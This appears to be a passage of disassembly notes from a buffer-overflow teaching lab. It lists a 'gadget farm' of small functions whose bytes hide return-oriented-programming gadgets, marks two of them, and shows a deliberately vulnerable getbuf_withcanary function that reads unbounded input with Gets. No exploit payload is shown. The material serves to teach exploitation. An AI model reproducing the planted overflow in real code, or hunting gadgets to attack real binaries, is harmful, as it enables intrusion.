  401feb:	b8 48 c9 e0 c3       	mov    $0xc3e0c948,%eax
  401ff0:	c3                   	ret

0000000000401ff1 <setval_325>:
  401ff1:	f3 0f 1e fa          	endbr64
  401ff5:	c7 07 81 ca 84 db    	movl   $0xdb84ca81,(%rdi)
  401ffb:	c3                   	ret

0000000000401ffc <setval_102>:
  401ffc:	f3 0f 1e fa          	endbr64
  402000:	c7 07 89 d6 90 c2    	movl   $0xc290d689,(%rdi) //???
  402006:	c3                   	ret

0000000000402007 <setval_321>:
  402007:	f3 0f 1e fa          	endbr64
  40200b:	c7 07 89 ca 91 90    	movl   $0x9091ca89,(%rdi)
  402011:	c3                   	ret

0000000000402012 <setval_449>:
  402012:	f3 0f 1e fa          	endbr64
  402016:	c7 07 89 d6 c1 66    	movl   $0x66c1d689,(%rdi)
  40201c:	c3                   	ret

000000000040201d <getval_493>:
  40201d:	f3 0f 1e fa          	endbr64
  402021:	b8 a9 d6 20 db       	mov    $0xdb20d6a9,%eax
  402026:	c3                   	ret

0000000000402027 <setval_478>:
  402027:	f3 0f 1e fa          	endbr64
  40202b:	c7 07 48 99 e0 90    	movl   $0x90e09948,(%rdi)
  402031:	c3                   	ret

0000000000402032 <getval_180>:
  402032:	f3 0f 1e fa          	endbr64
  402036:	b8 4a 89 e0 c3       	mov    $0xc3e0894a,%eax
  40203b:	c3                   	ret

000000000040203c <addval_109>:
  40203c:	f3 0f 1e fa          	endbr64
  402040:	8d 87 35 89 c1 92    	lea    -0x6d3e76cb(%rdi),%eax
  402046:	c3                   	ret

0000000000402047 <setval_374>:
  402047:	f3 0f 1e fa          	endbr64
  40204b:	c7 07 89 c1 94 c0    	movl   $0xc094c189,(%rdi)
  402051:	c3                   	ret

0000000000402052 <setval_181>:
  402052:	f3 0f 1e fa          	endbr64
  402056:	c7 07 89 ca c3 e2    	movl   $0xe2c3ca89,(%rdi)
  40205c:	c3                   	ret

000000000040205d <setval_259>:
  40205d:	f3 0f 1e fa          	endbr64
  402061:	c7 07 89 ca 30 c9    	movl   $0xc930ca89,(%rdi)
  402067:	c3                   	ret

0000000000402068 <getval_105>:
  402068:	f3 0f 1e fa          	endbr64
  40206c:	b8 89 ca 90 c3       	mov    $0xc390ca89,%eax
  402071:	c3                   	ret

0000000000402072 <addval_494>:
  402072:	f3 0f 1e fa          	endbr64
  402076:	8d 87 89 c1 20 db    	lea    -0x24df3e77(%rdi),%eax
  40207c:	c3                   	ret

000000000040207d <setval_137>:
  40207d:	f3 0f 1e fa          	endbr64
  402081:	c7 07 f2 89 d6 c3    	movl   $0xc3d689f2,(%rdi)
  402087:	c3                   	ret

0000000000402088 <getval_243>:
  402088:	f3 0f 1e fa          	endbr64
  40208c:	b8 5b 99 d6 c3       	mov    $0xc3d6995b,%eax
  402091:	c3                   	ret

0000000000402092 <getval_335>:
  402092:	f3 0f 1e fa          	endbr64
  402096:	b8 48 89 e0 90       	mov    $0x90e08948,%eax
  40209b:	c3                   	ret

000000000040209c <getval_115>:
  40209c:	f3 0f 1e fa          	endbr64
  4020a0:	b8 68 89 e0 c3       	mov    $0xc3e08968,%eax
  4020a5:	c3                   	ret

00000000004020a6 <addval_158>:
  4020a6:	f3 0f 1e fa          	endbr64
  4020aa:	8d 87 89 d6 84 c0    	lea    -0x3f7b2977(%rdi),%eax
  4020b0:	c3                   	ret

00000000004020b1 <getval_457>:
  4020b1:	f3 0f 1e fa          	endbr64
  4020b5:	b8 89 c1 94 c3       	mov    $0xc394c189,%eax
  4020ba:	c3                   	ret

00000000004020bb <addval_400>:
  4020bb:	f3 0f 1e fa          	endbr64
  4020bf:	8d 87 89 ca 94 db    	lea    -0x246b3577(%rdi),%eax
  4020c5:	c3                   	ret

00000000004020c6 <getval_202>:
  4020c6:	f3 0f 1e fa          	endbr64
  4020ca:	b8 48 89 e0 94       	mov    $0x94e08948,%eax
  4020cf:	c3                   	ret

00000000004020d0 <addval_293>:
  4020d0:	f3 0f 1e fa          	endbr64
  4020d4:	8d 87 89 c1 c2 18    	lea    0x18c2c189(%rdi),%eax
  4020da:	c3                   	ret

00000000004020db <setval_479>:
  4020db:	f3 0f 1e fa          	endbr64
  4020df:	c7 07 89 ca 28 db    	movl   $0xdb28ca89,(%rdi)
  4020e5:	c3                   	ret

00000000004020e6 <end_farm>:
  4020e6:	f3 0f 1e fa          	endbr64
  4020ea:	b8 01 00 00 00       	mov    $0x1,%eax
  4020ef:	c3                   	ret

---

0000000000401ffc <setval_102>:
  401ffc:	f3 0f 1e fa          	endbr64
  402000:	c7 07 89 d6 90 c2    	movl   $0xc290d689,(%rdi) //???
  402006:	c3                   	ret

000000000040207d <setval_137>:
  40207d:	f3 0f 1e fa          	endbr64
  402081:	c7 07 f2 89 d6 c3    	movl   $0xc3d689f2,(%rdi)
  402087:	c3                   	ret


---

0000000000401eb4 <getbuf_withcanary>:
  401eb4:	55                   	push   %rbp
  401eb5:	48 89 e5             	mov    %rsp,%rbp
  401eb8:	48 81 ec 20 01 00 00 	sub    $0x120,%rsp
  401ebf:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401ec6:	00 00 
  401ec8:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401ecc:	31 c0                	xor    %eax,%eax
  401ece:	c7 45 e4 00 00 00 00 	movl   $0x0,-0x1c(%rbp)
  401ed5:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401edc:	48 89 c7             	mov    %rax,%rdi
  401edf:	e8 c0 02 00 00       	call   4021a4 <Gets>
  401ee4:	8b 45 e4             	mov    -0x1c(%rbp),%eax
  401ee7:	48 98                	cltq
  401ee9:	48 8d 95 e0 fe ff ff 	lea    -0x120(%rbp),%rdx
  401ef0:	48 8d 0c 02          	lea    (%rdx,%rax,1),%rcx
  401ef4:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401efb:	ba 80 00 00 00       	mov    $0x80,%edx
  401f00:	48 89 c6             	mov    %rax,%rsi
  401f03:	48 89 cf             	mov    %rcx,%rdi
  401f06:	e8 35 f2 ff ff       	call   401140 <memcpy@plt>
  401f0b:	b8 01 00 00 00       	mov    $0x1,%eax
  401f10:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi
  401f14:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  401f1b:	00 00 
  401f1d:	74 05                	je     401f24 <getbuf_withcanary+0x70>
  401f1f:	e8 6f 07 00 00       	call   402693 <__stack_chk_fail>
  401f24:	c9                   	leave
  401f25:	c3                   	ret

